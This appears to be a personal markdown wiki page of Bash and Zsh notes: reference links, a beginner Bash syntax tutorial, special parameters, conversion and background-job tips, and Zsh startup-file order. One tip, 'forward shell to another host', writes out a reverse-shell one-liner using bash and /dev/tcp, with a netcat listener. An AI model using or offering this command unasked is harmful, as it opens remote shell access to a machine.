

# Shell

!!! info ""

    + [:material-arch: Command-line shell](https://wiki.archlinux.org/title/Command-line_shell#Configuration_files)
    + [Unix Shells: Bash, Fish, Ksh, Tcsh, Zsh comparison](https://hyperpolyglot.org/unix-shells)
    + [Linux Handbook](https://linuxhandbook.com/)
    + [ ] [Автоматически изменяем заголовок эмулятора терминала на последнюю введённую команду](https://the-bosha.ru/2012/07/08/avtomaticheski-izmenyaem-zagolovok-emulyatora-terminala-na-poslednyuyu-vvedyonnuyu-komandu/)

    **256 colors for Terminal:**

    + [Xterm256 color names for console Vim](https://vim.fandom.com/wiki/Xterm256_color_names_for_console_Vim)
    + [256 цветов в терминале ⇒ уровень nightmare(Habr)](https://habr.com/ru/post/161999/)
    + [Color Builder for Terminal](http://terminal-color-builder.mudasobwa.ru/) + [:material-github:](https://github.com/mudasobwa/TermColorBuilder)
## Bash

!!! info ""

    **Reference:**

    + [Bash Reference Manual](https://www.gnu.org/software/bash/manual/html_node/index.html#SEC_Contents)
    + [Shell & Utilities: Detailed Toc](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/contents.html)

    **Bash Learning Sources**

    + [Advanced Bash-Scripting Guide](https://tldp.org/LDP/abs/html/index.html)
    + [Learn X in Y minutes](https://learnxinyminutes.com/docs/bash/)
    + [Bash Pitfalls](https://mywiki.wooledge.org/BashPitfalls)
    + [Введение в Bash Shell(Habr)](https://habr.com/ru/post/471242/)
    + Introduction to Advanced Bash Usage - James Pannacciulli @ OSCON 2014

        

        <object data="./bash_oscon_2014.pdf" type="application/pdf" class="pdf"></object>

    + [ ] [An introduction to parameter expansion in Bash](https://opensource.com/article/17/6/bash-parameter-expansion)

### Bash Essentials

#### Bash script syntax

```bash
#! /bin/bash

# ECHO COMMAND
echo Hello World!

# VARIABLES
# Uppercase by convention
# Letters, numbers, underscores
NAME="Bob"
echo "My name is $NAME"
echo "My name is ${NAME}"

# USER INPUT
read -p "Enter your name: " NAME
echo "Hello $NAME, nice to meet you!"

# SIMPLE IF STATEMENT
if [ "$NAME" == "Brad" ]
then
  echo "Your name is Brad"
fi

# IF-ELSE
if [ "$NAME" == "Brad" ]
then
  echo "Your name is Brad"
else
  echo "Your name is NOT Brad"
fi

# ELSE-IF (elif)
if [ "$NAME" == "Brad" ]
then
  echo "Your name is Brad"
elif [ "$NAME" == "Jack" ]
then
  echo "Your name is Jack"
else
  echo "Your name is NOT Brad or Jack"
fi

# COMPARISON
NUM1=31
NUM2=5
if [ "$NUM1" -gt "$NUM2" ]
then
  echo "$NUM1 is greater than $NUM2"
else
  echo "$NUM1 is less than $NUM2"
fi

########
# val1 -eq val2 Returns true if the values are equal
# val1 -ne val2 Returns true if the values are not equal
# val1 -gt val2 Returns true if val1 is greater than val2
# val1 -ge val2 Returns true if val1 is greater than or equal to val2
# val1 -lt val2 Returns true if val1 is less than val2
# val1 -le val2 Returns true if val1 is less than or equal to val2
########

# FILE CONDITIONS
FILE="test.txt"
if [ -e "$FILE" ]
then
  echo "$FILE exists"
else
  echo "$FILE does NOT exist"
fi

########
# -d file   True if the file is a directory
# -e file   True if the file exists (note that this is not particularly portable, thus -f is generally used)
# -f file   True if the provided string is a file
# -g file   True if the group id is set on a file
# -r file   True if the file is readable
# -s file   True if the file has a non-zero size
# -u    True if the user id is set on a file
# -w    True if the file is writable
# -x    True if the file is an executable
########

# CASE STATEMENT
read -p "Are you 21 or over? Y/N " ANSWER
case "$ANSWER" in
  [yY] | [yY][eE][sS])
    echo "You can have a beer :)"
    ;;
  [nN] | [nN][oO])
    echo "Sorry, no drinking"
    ;;
  *)
    echo "Please enter y/yes or n/no"
    ;;
esac

# SIMPLE FOR LOOP
NAMES="Brad Kevin Alice Mark"
for NAME in $NAMES
  do
    echo "Hello $NAME"
done

# FOR LOOP TO RENAME FILES
FILES=$(ls *.txt)
NEW="new"
for FILE in $FILES
  do
    echo "Renaming $FILE to new-$FILE"
    mv $FILE $NEW-$FILE
done

# WHILE LOOP - READ THROUGH A FILE LINE BY LINE
LINE=1
while read -r CURRENT_LINE
  do
    echo "$LINE: $CURRENT_LINE"
    ((LINE++))
done < "./new-1.txt"

# FUNCTION
function sayHello() {
  echo "Hello World"
}
sayHello

# FUNCTION WITH PARAMS
function greet() {
  echo "Hello, I am $1 and I am $2"
}

greet "Brad" "36"

# CREATE FOLDER AND WRITE TO A FILE
mkdir hello
touch "hello/world.txt"
echo "Hello World" >> "hello/world.txt"    # >> adds to file, > overwrites a file
echo "Created hello/world.txt"
```

#### Bash Positional Parameters([source](https://tldp.org/LDP/abs/html/internalvariables.html#APPREF))

+ `$0, $1, $2`, etc. - Positional parameters, passed from command line to script, passed to a function, or set to a variable.
+ `$#` - Number of command-line arguments or positional parameters.
+ `$*` - All of the positional parameters, seen as a single word. `$*` must be quoted.
+ `$@` - Same as `"$*"`, but each parameter is a quoted string, that is, the parameters are passed on intact, without interpretation or expansion. This means, among other things, that each parameter in the argument list is seen as a separate word. `"$@"` must be quoted.
+ `$#` - Number of arguments in `$*`.

#### Other Special Parameters

+ `$-` - Flags passed to script (using `set`).
+ `$$` - PID of the current process.
+ `$!` - PID of last job run in background.
+ `$?` - Return code of the last executed command.
+ `$_` - Final argument of previous command executed..

#### Bash Shell Shortcuts

{: .zoom}

#### Bash configuration

+ ##### *compatibility mode with vi in bash*

    ```bash
    # put this line in ~./bashrc
    set -o vi

    # put these lines in ~./inputrc
    set editing-mode vi
    set keymap vi
    ```

### Bash Tips & Tricks

#### Useful Commands

+ ##### *show the current folder's size*

    ```bash
    du -hs
    ```

+ ##### *redirect output to protected file*

    ```bash
    # overwrite output to protected file
    echo 16 | sudo tee /proc/sys/kernel/sysrq

    # append output to protected file
    echo 16 | sudo tee -a /proc/sys/kernel/sysrq
    ```

+ ##### *convert pdf to jpg*

    1. *using `pdftoppm` tool:*

        Basic command format: `#! bash pdftoppm -jpeg -r 300 input.pdf output`

        The `-jpeg` sets the output image format to JPG, `-r 300` sets the output image resolution to 300 DPI, and the word `output` will be the prefix to all pages of images, which will be numbered and placed into your current directory you are working in. A better way, in my opinion, however, is to use `mkdir -p images` first to create an "images" directory, then set the output to `images/pg` so that all output images will be placed cleanly into the `images` dir you just created, with the file prefix `pg` in front of each of their numbers.

        Therefore, here are my favorite commands:

        1. [Produces ~1MB-sized files per pg] Output in **.jpg** format at **300 DPI**:

            ```bash
            mkdir -p images && pdftoppm -jpeg -r 300 mypdf.pdf images/pg
            ```

        2. [Produces ~2MB-sized files per pg] Output in **.jpg** format **at highest quality (least compression)** and still at **300 DPI**:

            ```bash
            mkdir -p images && pdftoppm -jpeg -jpegopt quality=100 -r 300 mypdf.pdf images/pg
            ```

    2. *using ImageMagick's `convert` tool:*

        1. install `imagemagick`

        2. use `convert` like this:

            ```bash
            convert input.pdf output.jpg

            # For good quality use these parameters
            convert -density 300 -quality 100 in.pdf out.jpg
            ```

+ ##### *forward shell to another host*

    ```bash
    bash -i >& /dev/tcp/<host-ip>/<port> 0>&1
    ```

    Example:

    1. On host machine run  `#!bash bash -i >& /dev/tcp/192.168.218.1/9999 0>&1` where:

        1. `192.168.218.1` is the host to which you want to forward the shell(note that you can also use a hostname but I strongly suggest you use an IP to prevent issues with hostname-resolving)
        1. `9999` is the port number on which the netcat listener will listen

    2. Start the *netcat listener* on the other side by running `#!bash nc -l 9999`.

        1. Double check that there are no firewall rules preventing you from accepting connections.
        1. Some versions of netcat require you to add `-p` before the port number.

+ ##### *"find"*

    + [ ] [15 супер полезных примеров команды find в Linux](https://habr.com/ru/company/first/blog/593669/)

#### Run Commands in the Background

1. End a Command with **&**

    !!! note

        When the terminal session is closed, the command ends. You can also kill the command by issuing the `jobs` command, finding the number of the command that’s running, and killing it with the `kill` command: `kill %1`

    !!! warning

        Using `&` doesn’t disconnect the command away from you; it just pushes it into the background. You can verify this by typing `jobs` into the terminal. This means that while you’re trying to use the terminal, anything the command wants to push to `STDOUT` or `STDERR` will still be printed, which may be distracting, e.g. `ping google.com &`. If you’re looking to prevent this, consider redirecting the command to “/dev/null”: `COMMAND &>/dev/null &`

2. **&** After a Command, Then **Disown** It

    !!! note

        Using `disown` after running command with `&` keep this command running in constant, even with your terminal session ending. It’ll still keep piping things to `STDOUT` or `STDERR`, but once you exit and reopen your terminal, you won’t see anything there. You can find the command again with the `top` or `ps` commands and kill it with the `kill` command.

3. **Nohup**, with **&** and **/dev/null**

    !!! note

        `nohup` bypasses the HUP signal (signal hang up), making it possible to run commands in the background even when the terminal is off. Combine this command with redirection to “/dev/null” (to prevent nohup from making a nohup.out file), and everything goes to the background with one command: `nohup COMMAND &>/dev/null &`

### Bash Utilities

+ [Basher - bash package manager](https://www.basher.it/)
+ [dotenv](https://github.com/bashup/dotenv)
+ [bashew - bash script / project creator](https://github.com/pforret/bashew)
+ [setver - get and set semver versions for php, node, github and bash](https://github.com/pforret/setver)
+ [ ] [:octicons-mark-github-16: Trashy](https://gitlab.com/trashy/trashy)

## Zsh

!!! info ""

    + [Переход с bash на zsh(Habr)](https://habr.com/ru/post/326580/)
    + [ ] [terminal-helpful-tips (7 Part Series)](https://dev.to/equiman/reveal-the-command-behind-an-alias-with-zsh-4d96)
    + [ ] [zsh: tips & tricks(Habr)](https://habr.com/ru/post/164597/) + [github](https://github.com/bosha/zshrc/tree/master/.zsh)
    + [ ] [What are the practical differences between Bash and Zsh?](https://apple.stackexchange.com/questions/361870/what-are-the-practical-differences-between-bash-and-zsh/361957#361957)
    + [ ] [Command Line Productivity with ZSH Aliases](https://blog.lftechnology.com/command-line-productivity-with-zsh-aliases-28b7cebfdff9)
    + [ ] [Learn the basics of the ZSH shell](https://linuxconfig.org/learn-the-basics-of-the-zsh-shell)
    + [ ] [Getting started with Zsh](https://opensource.com/article/19/9/getting-started-zsh)

    **MacOS:**

    + [Moving to zsh](https://scriptingosx.com/2019/06/moving-to-zsh/)
    + [Change cursor shape in different modes - for MacOS](https://vim.fandom.com/wiki/Change_cursor_shape_in_different_modes#For_iTerm2_on_OS_X)

### Zsh Essentials

#### Zsh configuration

+ ##### *zsh startup and shutdown files read order*

    !!! note

        Files starting with `.` are **user-level configs** and are located in the directory path set as value to the **ZDOTDIR** variable. If the value of this variable is an empty string, files are assumed to be in the user **HOME** directory.

    {++ Login Interactive Shell ++}

    1. `/etc/zshenv` -> `.zshenv` - are used to define *environmental variables*. They are always invoked each time a zsh session is started, therefore they should contain the less possible content. Only commands that don’t produce output should be written in these files.
    2. `/etc/zprofile` -> `.zprofile` - can be used to run commands to setup *login shell's* context.
    3. `/etc/zshrc` -> `.zshrc` - are invoked when an *interactive shell* session is started. They are basically the counterpart of the /etc/bashrc and ~/.bashrc files for the BASH shell.
    4. `/etc/zlogin` -> `.zlogin` - are considered as an alternative to “profile” files.
    5. `.zlogout` -> `/etc/zlogout` -  are run when a *login shell* session is ^^closed^^.

    {++ Non-Login Interactive Shell ++}

    1. `/etc/zshenv` -> `.zshenv`
    2. `/etc/zshrc` -> `.zshrc`

    {++ Non-Login Non-Interactive Shell (e.g. scripts) ++}

    1. `/etc/zshenv` -> `.zshenv`

### Zsh Utilities

!!! info ""

    + [awesome-zsh-plugins(GitHub)](https://github.com/unixorn/awesome-zsh-plugins)

#### Oh My Zsh

A delightful community-driven framework for managing your zsh configuration.

!!! info ""

    + [Official Website](https://ohmyz.sh/)
    + [Official Git](https://github.com/ohmyzsh)
